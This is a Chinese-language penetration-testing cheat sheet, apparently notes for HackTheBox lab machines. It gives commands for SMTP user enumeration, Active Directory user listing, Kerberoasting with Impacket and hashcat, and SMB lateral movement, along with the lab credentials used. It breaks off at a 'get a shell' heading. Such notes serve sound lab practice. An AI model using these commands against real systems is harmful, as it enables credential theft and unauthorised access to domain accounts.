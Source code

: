 

# 25 SMTP

枚举用户名

```bash
smtp-user-enum -M RCPT -U test_user.txt -t 10.10.10.77 -w 10
```

```bash
smtp-user-enum -M VRFY -U cewl.list -t 10.10.10.51
```



# 技巧



- `GetADUsers.py` ，得到一个用户的凭据时，可以根据它查找域内存在的用户

  ```bash
  GetADUsers.py -all -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 
  ```

  也可以尝试请求票据

  ```bash
  getTGT.py -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18
  ```



- Kerberoasting

  ```bash
  #先用已知用户凭据得到服务
  GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18
  #再申请得到 TGS 票据
  getST.py -spn active/CIFS:445 active.htb/SVC_TGS:GPPstillStandingStrong2k18
  #导入票据进内存
  export KRB5CCNAME=SVC_TGS.ccache
  #请求对应的spn服务得到服务票据，夹带了账号密码信息，如果是rc4加密时就可以破解
  GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
  #破解票据
  hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
  ```

  

- 横向

  smb：

  ```bash
  smbmap -H 10.10.10.100 -d active.htb -u administrator -p Ticketmaster1968
  smbclient //10.10.10.100/C$ -U active.htb\\administrator%Ticketmaster1968
  ```

  拿shell：
